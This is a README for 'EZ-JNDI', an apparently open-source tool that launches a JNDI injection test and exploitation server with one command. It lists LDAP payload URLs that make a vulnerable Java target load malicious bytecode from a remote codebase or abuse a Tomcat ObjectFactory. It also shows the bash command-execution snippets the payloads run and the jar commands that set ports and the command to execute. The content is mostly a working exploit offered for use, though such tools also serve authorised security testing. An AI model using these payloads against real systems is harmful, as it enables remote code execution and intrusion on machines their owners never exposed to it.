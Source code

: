 # EZ-JNDI
一键启动JNDI测试/利用环境。

LDAP Payload：
```text
ldap://{IP}:{Port}/Foo --> 利用远程CodeBase加载恶意字节码执行命令
ldap://{IP}:{Port}/Tom --> 使用Tomcat本地ObjectFactory执行命令
```
执行命令使用的方式是（目前支持Linux环境），无需对命令进行base64编码：
```java
Runtime.getRuntime.exec(new String[]{"/bin/bash", "-c", "{command}"});
New ProcessBuilder(new String[]{"/bin/bash", "-c", "{command}").start();
```

LDAP默认端口1099，HTTP默认端口8080，可以使用命令行参数配置端口：
```text
java -jar ezjndi1.0.jar --help
java -jar ezjndi1.0.jar -lp={port1} -hp={port2} -c="{command}"
```

![img.png](img/img.png)

![img.png](img/img2.png)

TODO:
- 直接返回序列化数据
- Windows环境下利用cmd执行命令（`cmd /c {command}`）